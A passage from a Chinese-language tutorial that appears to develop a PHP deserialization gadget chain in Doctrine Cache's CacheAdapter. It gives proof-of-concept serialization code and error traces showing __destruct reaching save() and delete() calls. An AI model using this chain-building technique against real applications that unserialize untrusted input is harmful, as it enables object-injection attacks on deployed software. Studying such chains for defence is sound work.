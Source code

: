 输出结果：

```bash
$ php unserialize.php 

Fatal error: Uncaught Error: Call to a member function save() on null in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 235
```

相反的，如果当前 timestamp 大于 `deferredItem` `expiry` ，则到达 `delete` 方法。

```bash
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;

$obj = new CacheAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

输出结果：

```bash
$ php unserialize.php 

Fatal error: Uncaught Error: Call to a member function delete() on null in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:227
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 227
```
